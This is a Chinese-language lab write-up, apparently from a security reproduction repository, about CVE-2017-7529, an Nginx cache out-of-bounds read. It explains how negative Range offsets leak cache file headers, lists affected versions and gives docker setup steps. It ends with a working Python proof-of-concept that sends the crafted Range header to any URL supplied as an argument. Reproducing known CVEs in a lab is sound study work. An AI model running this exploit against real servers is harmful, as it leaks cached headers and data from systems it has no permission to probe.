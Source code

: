 # CVE-2017-7529 Nginx 越界读取缓存漏洞

### 一、漏洞简介

Nginx在反向代理站点的时候，通常会将一些文件进行缓存，特别是静态文件。缓存的部分存储在文件中，每个缓存文件包括“文件头”+“HTTP返回包头”+“HTTP返回包体”。如果二次请求命中了该缓存文件，则Nginx会直接将该文件中的“HTTP返回包体”返回给用户。

如果我的请求中包含Range头，Nginx将会根据我指定的start和end位置，返回指定长度的内容。而如果我构造了两个负的位置，如(-600, -9223372036854774591)，将可能读取到负位置的数据。如果这次请求又命中了缓存文件，则可能就可以读取到缓存文件中位于“HTTP返回包体”前的“文件头”、“HTTP返回包头”等内容。

### 二、漏洞影响

* Nginx Nginx:1.13.2
* Nginx Nginx:1.13.1
* Nginx Nginx:1.13.0
* Nginx Nginx:1.11.13
* Nginx Nginx:1.11.12

### 三、复现过程

运行测试环境：


```bash
docker-compose up -d
```

访问`http://url:8080/`，即可查看到Nginx默认页面，这个页面实际上是反向代理的8081端口的内容。

调用`python3 poc.py http://url:8080/`，读取返回结果

![](images/15891965424481.png)


可见，越界读取到了位于“HTTP返回包体”前的“文件头”、“HTTP返回包头”等内容。

如果读取有误，请调整poc.py中的偏移地址（605）。

poc


```python
#!/usr/bin/env python
import sys
import requests

if len(sys.argv) < 2:
    print("%s url" % (sys.argv[0]))
    print("eg: python %s http://your-ip:8080/" % (sys.argv[0]))
    sys.exit()

headers = {
    'User-Agent': "Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.10240"
}
offset = 605
url = sys.argv[1]
file_len = len(requests.get(url, headers=headers).content)
n = file_len + offset
headers['Range'] = "bytes=-%d,-%d" % (
    n, 0x8000000000000000 - n)

r = requests.get(url, headers=headers)
print(r.text)
```